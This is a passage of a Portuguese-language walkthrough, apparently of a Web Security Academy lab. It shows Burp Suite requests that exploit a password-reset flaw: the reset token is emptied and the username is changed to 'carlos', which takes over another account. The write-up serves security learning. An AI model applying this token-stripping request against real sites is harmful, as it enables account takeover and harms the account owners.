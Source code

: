 Ao definir a nova senha, podemos analisar a requisição que foi feita através do `burp suite`.

```http

POST /forgot-password?temp-forgot-password-token=LJpO2KLdWOtHWPU9k6kJgDVPxs4DtXCu HTTP/1.1
Host: 0a89003503a27776c3bc9d6300850035.web-security-academy.net
Cookie: session=NxrUrDNEbw41iETeigK3yr8TCK9YkVVW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 119
Origin: https://0a89003503a27776c3bc9d6300850035.web-security-academy.net
Referer: https://0a89003503a27776c3bc9d6300850035.web-security-academy.net/forgot-password?temp-forgot-password-token=LJpO2KLdWOtHWPU9k6kJgDVPxs4DtXCu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

temp-forgot-password-token=LJpO2KLdWOtHWPU9k6kJgDVPxs4DtXCu&username=wiener&new-password-1=sonael&new-password-2=sonael

```

A requisição acima mostra que tem um parâmetro chamado `temp-forgot-password-token` tanto na url quanto no corpo da requisição, que impedem que o usuário altere a senha de outro usuário, pois o token é gerado para cada usuário.

Além disso, temos um parâmetro chamado `username` que é o usuário que queremos resetar a senha, e os parâmetros `new-password-1` e `new-password-2` que são as novas senhas.

Porém se excluirmos o valor do parâmetro `temp-forgot-password-token` da url e do corpo da requisição, a aplicação não irá impedir que o usuário altere a senha de outro usuário. Isso acontece porque o parâmetro `temp-forgot-password-token` não está sendo validado na aplicação.

então através do `burp suite` vamos alterar a requisição para que o parâmetro `temp-forgot-password-token` seja removido da url e do corpo da requisição e junto com isso vamos alterar o parâmetro `username` para `carlos`.

```http

POST /forgot-password?temp-forgot-password-token= HTTP/1.1
Host: 0a89003503a27776c3bc9d6300850035.web-security-academy.net
Cookie: session=NxrUrDNEbw41iETeigK3yr8TCK9YkVVW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 87
Origin: https://0a89003503a27776c3bc9d6300850035.web-security-academy.net
Referer: https://0a89003503a27776c3bc9d6300850035.web-security-academy.net/forgot-password?temp-forgot-password-token=LJpO2KLdWOtHWPU9k6kJgDVPxs4DtXCu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

temp-forgot-password-token=&username=carlos&new-password-1=sonael&new-password-2=sonael
```